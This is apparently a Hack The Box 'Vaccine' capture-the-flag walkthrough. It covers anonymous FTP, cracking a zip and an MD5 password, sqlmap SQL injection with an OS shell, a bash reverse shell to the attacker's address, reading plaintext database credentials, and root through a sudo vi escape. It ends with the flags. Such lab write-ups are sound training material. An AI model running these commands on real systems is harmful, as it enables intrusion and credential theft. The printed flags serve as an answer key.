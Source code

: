 # Vaccine

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. Besides SSH and HTTP, what other service is hosted on this box?

```sh
$ nmap -A -T4 10.129.184.58
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-03 19:45 CET
Nmap scan report for 10.129.184.58
Host is up (0.091s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.15
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.82 seconds
```

> FTP

#### 2. This service can be configured to allow login with any password for specific username. What is that username?

> anonymous

#### 3. What is the name of the file downloaded over this service?

```sh
$ ftp 10.129.184.58
Connected to 10.129.184.58.
220 (vsFTPd 3.0.3)
Name (10.129.184.58): anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

> backup.zip

#### 4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

> zip2john

#### 5. What is the password for the admin user on the website?

```sh
$ zip2john backup.zip > crack.txt
$ john --wordlist=dictionaries/rockyou.txt crack.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Warning: invalid UTF-8 seen reading ./tools/john/run/john.pot
Cracked 1 password hash (is in ./tools/john/run/john.pot), use "--show"
No password hashes left to crack (see FAQ)
$ john --show crack.txt
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip

1 password hash cracked, 0 left
$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] index.php password: 741852963
  inflating: index.php               
  inflating: style.css  
$ cat index.php | grep password
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
        ... 
```
We get `MD5 hash` `2cb42f8734ea607eefed3b70af13bbd3`, so we use [hashes.com](https://hashes.com/en/decrypt/hash) to crack it:

![hash](./hash.jpg)

> qwerty789 

*(We can now login with `admin:qwerty789`)*

#### 6. What option can be passed to sqlmap to try to get command execution via the sql injection?

> --os-shell

#### 7. What program can the postgres user run as root using sudo?

Once we are logged in to the web, we can see the query in the url `http://10.129.184.58/dashboard.php?search=a` with `search` parameter, so we can use `sqlmap` to test it for possible injections *(also we need to grap our `PHPSESSID` cookie from `Developer Tools`)*:

```sh
$ sqlmap -u "http://10.129.184.58/dashboard.php?search=a" --cookie="PHPSESSID=3hbssgb9bbav2tutsj81hd2639"
...
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
```

So we can get the shell:

```sh
$ sqlmap -u "http://10.129.184.58/dashboard.php?search=a" --cookie="PHPSESSID=3hbssgb9bbav2tutsj81hd2639" --os-shell
... 
os-shell>
```

Next, we will make reverse shell to make it more stable:

```sh
$ nc -l 9001
```

```sh
os-shell> bash -c "bash -i >& /dev/tcp/10.10.16.15/9001 0>&1"
```

Got it:

```sh
nc -l 9001
bash: cannot set terminal process group (2148): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$
```

We will try to find the password in the /var/www/html folder, since the machine uses both PHP & SQL, meaning that there should be credentials in clear text:

```sh
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/www/html  
postgres@vaccine:/var/www/html$ ls
bg.png	       dashboard.js   index.php    style.css
dashboard.css  dashboard.php  license.txt
postgres@vaccine:/var/www/html$ cat dashboard.php
...
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}
...
```

Got it! `postgres:P@s5w0rd!`

Let's see what we can do now as `root`:

```sh
postgres@vaccine:/var/www/html$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

> vi

#### Submit user flag

```sh
postgres@vaccine:/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

#### Submit root flag

Let's firstly connect with ssh:

```sh
$ ssh postgres@10.129.184.58
...
postgres@vaccine:~$
```

So we can run `vi` as root, let's see, how can we get `root` permissions on [GTFOBins](https://gtfobins.github.io/gtfobins/vi/):

```sh
vi
:set shell=/bin/sh
:shell
```

Let's open allowed file with vi and then try to switch to `root`:

```sh
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

![set](./set.jpg)

![shell](./shell.jpg)

```sh
root@vaccine:/var/lib/postgresql#
```

And we are in as `root`! Let's get the flag:

```sh
root@vaccine:/var/lib/postgresql# cat /root/root.txt
dd6e058e814260bc70e9bbdef2715849
```


## Final Flag

> `user`: ec9b13ca4d6229cd5cc1e09980965bf7
> `root`: dd6e058e814260bc70e9bbdef2715849

*Created by [bu19akov](https://github.com/bu19akov)*